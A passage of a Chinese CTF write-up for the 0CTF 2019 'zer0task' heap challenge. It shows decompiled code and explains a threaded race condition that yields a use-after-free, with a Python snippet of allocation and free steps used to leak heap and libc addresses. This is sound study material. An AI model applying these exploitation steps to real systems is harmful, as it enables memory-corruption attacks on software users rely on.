 ```arm
unsigned __int64 go()
{
  int id; // [rsp+4h] [rbp-1Ch]
  pthread_t newthread; // [rsp+8h] [rbp-18h]
  node *tmp_ptr; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Task id : ");
  id = get_cmd();
  for ( tmp_ptr = PTR; tmp_ptr; tmp_ptr = tmp_ptr->next )
  {
    if ( id == tmp_ptr->id )
    {
      pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, tmp_ptr);
      return __readfsqword(0x28u) ^ v4;
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```
主要是通过`id`找到目标chunk然后打印`encode`或者`decode`之后的内容简而言之就是一个show函数
# 漏洞点
但是主要的漏洞点是`pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, tmp_ptr);`使用了pthread
其中`start_routine`睡了两秒...多么明显的条件竞争...由于之前没做过条件竞争的我选择性忽视了/捂脸
```arm
puts("Prepare...");
sleep(2u);
```
所以我们造成uaf，例如
```arm
go()
delete()
```
来泄露地址
但是有个小问题是`EVP_CIPHER_CTX`结构体也被free了为了程序的正常运行我们需要把它`malloc`.例如
```python
add(0x8)#0
add(0x8)#1
add(0x8)#2
go(0)
free(0)
free(1)
free(2)
add(0xa8)#because of sizeof(EVP_CIPHER_CTX)=0xb0
add(8)
```
这样我们就可以泄露堆地址.

然后我们可以伪造`node`泄露libc地址.


[1]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/zer0task
